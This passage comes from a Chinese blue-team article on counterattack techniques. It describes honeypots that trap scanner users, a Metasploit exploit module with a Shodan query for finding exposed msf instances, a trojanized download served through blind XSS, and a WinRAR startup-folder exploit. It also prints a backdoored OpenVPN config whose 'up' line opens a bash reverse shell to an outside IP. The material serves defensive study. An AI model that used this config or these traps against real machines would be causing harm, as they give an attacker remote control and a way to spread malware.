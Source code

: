 
8.  burp 截图：  
    ![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwKyGM4zBOwh6RUdw9xLq3ayNUicqfyJ0zlcnoUKuziczpPmI4V9X17MEKOvLUiaHkCVnDnSUMgtDEcQ/640?wx_fmt=png)  
    如果红队成员不仔细看 post 数据，就有可能直接复制黏贴这个包放在 sqlmap 里面跑，这样子就会被蓝队控制。  
    
    参考文章：注意了，使用 sqlmap 的你可能踩中了蜜罐
    
    5. msf v=Metasploit 4.12.0-2016061501 to 4.12.0-2016083001  
    msf 中直接有利用脚本，路径为 exploit/multi/http/metasploit_static_secret_key_base。  
    可以在 shodan 上直接搜索互联网侧的 msf：`title:"metasploit is initializing"`
    

参考文章: Metasploit 反序列化漏洞

> 浅谈蚁剑 RCE  
> 嵌入式浏览器安全杂谈 - electron 框架  
> 中国蚁剑源码分析  
> 论如何反击用 AWVS 的黑客  
> 使用各种扫描工具的你，不但踩了 “蜜罐” 可能还要被团灭了

3.4 反制 XSS 盲打  

我们遇见了 XSS 盲打攻击时，可以选择将虚假信息回传给 XSS 平台并反制攻击者。具体实现：

1.  在蜜罐上配置一个后台管理系统的一个页面，让这个页面存在 XSS 漏洞。
    
2.  页面的背后逻辑是，如果账号密码验证成功则显示当前 IP 不在准入名单中，然后弹到另一个页面，另一个页面是下载页面，这个页面上部署一个植入木马的程序 (例如 vpn)，诱导攻击者下载。
    

> 参考文章：
> 
> 看蓝队如何干翻你，浅谈蓝队反制手段！

### 3.5 利用 winrar 漏洞

条件：安装 winrar 软件  
实现的效果：攻击者下载我们制作好的恶意 rar 文件，在自己电脑上利用 winrar 解压后，就会将我们事先指定的 exe 文件解压到当前用户的开机启动文件夹下，等机器重启的时候就会运行我们事先安排的 exe 文件。

> 利用：https://github.com/WyAtu/CVE-2018-20250

### 3.6 利用 openvpn 客户端配置文件后门进行反制

我们可以在服务器上留下一个 openvpn 客户端的后门文件，里面的部分内容如下：

```
remote 192.168.31.137
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.31.138/9090 0<&1 2>&1&'"
```

我们可以先做一个蜜罐，比如说蜜罐就是 192.168.31.137，且这个 ip 可以被攻击者反问到。在蜜罐上面只配置 openvpn 服务，然后将上面的 openvpn 客户端文件放在另一台主机上，最好是台 windows 主机且无法执行 openvpn 命令，这样子攻击者就不得不下载这个配置文件进行利用。  

当攻击者下载 openvpn 配置文件到本地进行`sudo openvpn example.ovpn`后，就会执行我们事先写入的反弹 shell 的命令，进而达到反控的效果。

> 参考文章：  
> 从 OpenVPN 配置文件中创建反弹 Shell 实现用户系统控制
> 
> 对某攻击队的 Webshell 进行分析
